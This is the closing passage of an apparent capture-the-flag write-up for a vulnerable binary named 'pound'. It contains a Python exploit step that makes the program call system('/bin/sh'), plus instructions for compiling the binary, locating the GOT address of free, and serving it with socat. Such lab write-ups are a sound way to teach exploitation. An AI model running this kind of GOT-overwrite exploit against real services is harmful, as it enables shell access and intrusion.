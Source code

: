 <br>Final step:
```python 
def final_step():
	conn.sendline("4")
	conn.recvuntil("announcement:")
	conn.sendline("1000")
```
Calling option 4 (`void create_announcement()`) and passing a bigger size than `100` makes the program free the old announcement and trigger the call to `system("/bin/sh")`.

<br>Testing:

* Compile binary: `clang -m32 -DL1="285" -DL2="N;k" ./pound.c -o pound`
* Open binary with disassembler. Extract `free_in_got` address and find a `valid_bss_addr` far from where the `global` structure will be allocated.
* Modify this information in the `pwnpound.py` script.
* Modify `LIBCPATH` according to your system.
* Comment out `python_step()` used to connect to the python server.
* `socat tcp-l:4000,reuseaddr,fork exec:"./pound"`
* `python pwnpound.py`

~ marcof